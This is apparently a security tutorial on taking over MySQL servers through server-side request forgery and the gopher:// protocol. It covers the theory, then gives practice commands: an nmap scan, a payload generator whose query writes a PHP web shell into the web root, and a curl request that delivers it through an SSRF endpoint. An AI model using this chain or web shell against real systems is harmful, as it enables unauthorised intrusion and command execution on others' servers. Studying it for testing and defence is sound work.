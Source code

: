 ```yaml
---
title: Exploiting MySQL with SSRF for Command Execution
description: Learn leveraging SSRF and gopher:// to exploit MySQL vulnerabilities.
keywords:
- MySQL exploitation
- SSRF
- gopher protocol
- command execution
- MySQL native protocol
- SQL payloads
- web shell
- server-side request forgery
---
```


# MySQL Exploitation

## Context

This article focuses on exploiting MySQL databases using Server-Side Request Forgery (SSRF) to achieve command execution. By leveraging the gopher:// protocol, attackers can interact with MySQL services via SSRF endpoints, crafting payloads based on the MySQL native protocol. The reader is expected to have a basic understanding of MySQL protocol, SQL syntax, SSRF, and general command execution techniques.

## Theory

### MySQL SSRF Attack Surface

MySQL SSRF exploitation entails leveraging an SSRF vulnerability to interact with MySQL services using crafted protocol payloads. SSRF can be utilized to target internal MySQL services by sending raw protocol data directly over the gopher:// protocol. The attack sequence involves crafting gopher:// payloads that send MySQL protocol commands via an SSRF endpoint, potentially leading to command execution.

### Gopher Protocol for MySQL Exploitation

The gopher:// protocol enables attackers to deliver arbitrary TCP payloads, effectively bypassing standard HTTP constraints. By encoding MySQL native protocol packets within a gopher:// payload, attackers can send these packets over internal ports accessible from the vulnerable service, which may include MySQL.

### MySQL Native Protocol Abuse

The MySQL native protocol defines how clients communicate with MySQL servers, managing tasks such as authentication and query execution. Unauthenticated MySQL instances or those with weak credentials become vulnerable targets. Attackers can send meticulously crafted MySQL protocol packets to execute SQL commands, which can potentially lead to command execution.

### SQL Payloads for Command Execution

Certain SQL queries, such as `SELECT ... INTO OUTFILE` or User-Defined Functions (UDFs) like `sys_exec`, can be exploited to trigger OS-level command executions. SSRF can be harnessed to deliver such SQL payloads that either write web shells to accessible directories or execute system-level commands directly.

## Practice

### SSRF to MySQL Command Execution via gopher://

- **Identify SSRF Endpoint**: Locate a web application feature that allows SSRF with custom URL schemes. This is often found in web services that fetch data from URLs provided by users, such as URL previews or webhooks.

- **Scan for MySQL Service**: Use network scanning tools to identify if an internal MySQL service is accessible from the SSRF vantage point.

    ```bash
    nmap -p 3306 <target_internal_ip>
    ```

- **Craft MySQL Native Protocol Payload**: Use tools or scripts to generate binary payloads for the MySQL protocol. The key is to create payloads for authentication and desired query execution.

    ```bash
    python3 mysql-gopher.py --host <mysql_host> --user <user> --password <pass> --query "SELECT '<?php system($_GET['cmd']); ?>' INTO OUTFILE '/var/www/html/shell.php';" --output gopher
    ```

- **Send Payload via SSRF**: Trigger the SSRF to deliver the crafted payload to the internal MySQL server.

    ```bash
    curl 'http://vulnerable-app/ssrf?url=gopher://<mysql_host>:3306/_<payload>'
    ```

    Make sure to replace `<payload>` with the URL-encoded MySQL protocol data.

- **Access the Web Shell**: Verify successful command execution by accessing the uploaded shell, allowing you to execute arbitrary commands on the target system.

The above steps, when executed correctly, can lead to effective remote command execution by exploiting SSRF vulnerabilities to interact with a MySQL service.

## Tools

- **mysql-gopher**
- **nmap**
- **curl**